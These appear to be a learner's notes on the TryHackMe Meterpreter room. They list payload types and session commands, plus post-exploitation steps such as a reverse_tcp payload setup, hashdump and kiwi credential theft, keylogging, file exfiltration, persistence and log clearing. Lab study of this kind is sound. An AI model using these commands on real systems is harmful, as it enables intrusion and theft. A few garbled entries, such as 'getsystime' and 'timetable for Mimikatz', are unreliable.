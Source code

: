 # Room: Metasploit: Meterpreter (TryHackMe)

**Date:** 8 Oct 2025  
**Path:** Cyber Security 101  
**Goal:** Learn Meterpreter basics: available payload flavors, common commands, and post-exploitation techniques using Meterpreter sessions.

## 1. Key Concepts Learned

* **Introduction to Meterpreter**:

  * Meterpreter is an in-memory payload (part of Metasploit) that provides an interactive shell and post-exploitation capabilities without writing a persistent binary to disk.  
  * It runs as a staged payload (stager + stage) or as a single payload and communicates over a network channel (TCP, HTTP(S), or named pipes).

* **Meterpreter Flavors**:

  * **meterpreter (standard)**: default payload providing an interactive session with many extensions.  
  * **reverse_tcp / reverse_https**: callbacks from target to attacker (useful to bypass firewalls/NAT).  
  * **bind_tcp**: target listens for connection from attacker (less common).  
  * **staged vs single**: staged payloads download the larger Meterpreter stage after an initial stager connects; single payloads contain everything inline.  
  * **Platform flavors**: Windows (most feature-rich), Linux, macOS, Android, and variants for different architectures (x86/x64/ARM).

* **Meterpreter Commands**:

  * Session management: `sessions -l`, `sessions -i <id>` to list and interact with sessions.  
  * File ops: `ls`, `cd`, `download`, `upload`, `pwd`, `cat`.  
  * Process and system: `ps`, `getuid`, `sysinfo`, `kill`, `migrate` (move to another process).  
  * Privilege escalation helpers: `getsystime`, `getsystem` (attempt various techniques), and running local exploit modules.  
  * Networking: `portfwd`, `route`, `ipconfig`/`ifconfig`.  
  * Persistence and post-exploitation: `persistence` script, `run autoroute`, `hashdump` (requires privileges), `screenshare`/`screenshot`, `keyscan_start`/`keyscan_dump` (keylogging) where supported.  
  * Extensions: `load kiwi` (mimikatz-like features with appropriate modules), `load incognito` (token manipulation), depending on platform and session type.

* **Post-Exploitation with Meterpreter**:

  * Lateral movement: use `psexec`, `wmiexec`, or `smb`-based techniques coupled with credentials captured via `hashdump` or mimikatz to move to other hosts.  
  * Credential harvesting: `hashdump`, use `load kiwi` or timetable for Mimikatz features to extract credentials (requires privileges).  
  * Data exfiltration: `download` files, use `tunnel`/`portfwd` to pivot, or set up meterpreter as a SOCKS proxy for further tooling.  
  * Covering tracks: clear event logs, remove uploaded artifacts, and prefer in-memory techniques to reduce disk footprint.  
  * Post-exploitation modules: use Meterpreter's `run` scripts and Metasploit post modules to collect credentials, search for interesting files, and gather system information.

## 2. Commands / Tools Practiced (or likely to practice)

* `msfconsole` → `use exploit/...` → `set PAYLOAD windows/meterpreter/reverse_tcp` → `set LHOST` → `exploit`.  
* `sessions -l` / `sessions -i 1` — list and interact with sessions.  
* `meterpreter> sysinfo`, `meterpreter> getuid`, `meterpreter> ps` — gather system/process info.  
* `meterpreter> download C:\Users\target\Documents\secret.docx` — exfiltrate files.  
* `meterpreter> migrate 1234` — migrate to a stable process.  
* `meterpreter> run post/windows/gather/enum_logged_on_users` — example post module run.  
* `meterpreter> run persistence -h` — view persistence script options (lab-only).

## 3. Takeaways

* Meterpreter provides a powerful, in-memory interactive payload with many built-in post-exploitation capabilities — it’s a central tool for Metasploit-based workflows.  
* Different payload transports (reverse vs bind, TCP vs HTTPS) help navigate network constraints and detection.  
* Privilege level matters: many powerful Meterpreter commands require SYSTEM or root privileges.  
* Meterpreter’s modular `run` scripts and extensions make repetitive post-exploitation tasks faster — but they should only be used in safe lab environments and with authorization.

## 4. Next Steps

* Practice spawning Meterpreter sessions in lab VMs and use `sessions` to manage multiple targets.  
* Learn safe migration, persistence techniques (lab-only), and how to use `run` scripts for data collection.  
* Explore Meterpreter extensions (`kiwi`, `incognito`) and their defensive/ethical implications.  
* Study detection techniques used by EDR/AV and how to harden labs to simulate real-world detection and response.
